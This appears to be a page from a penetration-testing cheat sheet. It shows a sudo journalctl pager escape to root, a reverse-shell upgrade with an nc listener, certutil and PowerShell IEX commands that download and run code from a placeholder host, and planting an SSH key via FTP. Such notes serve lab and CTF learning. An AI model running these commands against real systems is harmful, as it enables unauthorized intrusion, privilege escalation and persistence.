 
#### More or Less Command 

- If any file we found in low priv user and it contains something like this, we can execute it and minimize the size of terminal to enter the visual mode to gain root access.

```
> $ cat new.sh 
#!/bin/bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

```
> $ sh new.sh 
-- Logs begin at Sun 2019-11-17 19:19:25 EST, end at Mon 2019-11-18 17:13:44 EST. --
Nov 18 17:02:26 kali sudo[11538]: pam_unix(sudo:auth): authentication failure; logname= uid=33 eu
Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): conversation failed
Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): auth could not identify password for [www-
Nov 18 17:02:29 kali sudo[11538]: www-data : command not allowed ; TTY=unknown ; PWD=/tmp ; USER=
Nov 18 17:02:29 kali crontab[11595]: (www-data) LIST (www-data)
!/bin/bash
root # 
```

#### Improve Shell
To get the better Shell after taking control of the system.
```
www-data@machine:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
<html$ python3 -c "import pty;pty.spawn('/bin/bash')"                        
www-data@machine:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 443
root@kali:# stty raw -echo
----------------------Here we need to type `fg` and press Enter `Twice`
root@kali:# nc -nlvp 443 
www-data@machine:/var/www/html$ export TERM=xterm
```

#### Transfer Files from Host to Target Machine
- Use `python -m SimpleHTTPServer` in the host folder.
- Use Apache and put files in `/var/www/html/` folder.
- If Tomcat is Opened, upload the file/payload using the Admin panel.
- If wordpress is running, upload the file as plugin.
- In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`
- In Windows, Using Powershell: `PS C:\Users\User\Desktop> IEX(New-Object Net.WebClient).downloadString('http://<HOST_IP>:8000/jaws-enum.ps1')`


#### FTP

If we were able to access FTP, we can upload SSH Key to login without password.
```
 > $ ftp <HOST_IP>
Connected to <HOST_IP>.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:<HOST_IP>]
Name (<HOST_IP>:root): notch
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put id_rsa.pub
ftp> rename id_rsa.pub authorized_keys
```
#### Windows Pass the Hash/Pass the Ticket
### LM vs NT hashes in Windows
- NT hashes used for NTLM, NTLMv2, Kerberos